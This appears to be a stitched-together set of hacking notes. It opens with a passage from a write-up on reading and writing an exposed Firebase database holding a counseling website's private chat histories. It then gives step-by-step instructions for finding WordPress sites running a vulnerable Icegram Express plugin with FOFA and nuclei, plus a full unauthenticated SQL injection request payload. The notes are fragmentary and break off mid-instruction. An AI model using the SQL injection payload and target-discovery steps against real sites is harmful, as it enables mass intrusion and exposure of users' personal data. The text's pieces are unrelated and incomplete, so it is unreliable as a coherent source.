 **The Discovery**

Following the steps in the [first resource](https://hacktricks.boitatech.com.br/pentesting/pentesting-web/buckets/firebase-database), I added “/.json” to the end of the Firebase database URL and got this:

![](https://miro.medium.com/v2/resize:fit:875/1*N80caQVM0FMQv03-UFzq9A.png)

It’s a massive database I guess!!

![](https://miro.medium.com/v2/resize:fit:875/1*M5RNTfXZSTS7TBSA3CqXHw.png)

After digging deep at the data, I could hardly believe it. I had the entire chat history of each user of the counseling website!

It took me a bit to get over the shock. Then I remembered that the [third resource](https://github.com/tauh33dkhan/Hacking-Insecure-Firebase-Database) mentioned above, explained how to check if we could write to the database. I checked it, and guess what!

![](https://miro.medium.com/v2/resize:fit:875/1*7FGmjmOU_LPu0nf_tiJmcA.png)

I also had unauthorized permissions to write in it too.

to do

https://infosecwriteups.com/firebase-url-exploitation-taking-over-android-databases-like-a-pro-79a00844496d

---

POC: https://youtu.be/jcqyWa4gjn8

github: [gh-ost00/SQL_Injection: Icegram Express - Email Subscribers, Newsletters and Marketing Automation Plugin <= 5.7.14 - Unauthenticated SQL Injection](https://github.com/gh-ost00/SQL_Injection) (3 months late!)

Go to https://en.fofa.info/ and type the following payload:


> body="/wp-content/plugins/email-subscribers/"

then type the following nuclei command with the file list:

![[Pasted image 20241205194856.png]]
then paste the following command:

````shell
POST /wp-admin/admin-post.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

page=es_subscribers&is_ajax=1&action=_sent&advanced_filter[conditions][0][0][field]=status=99924)))union(select(sleep(4)))--+&advanced_filter[conditions][0][0][operator]==&advanced_filter[conditions][0][0][value]=1111
````

and type the vulnerable hostname given by the nuclei template:
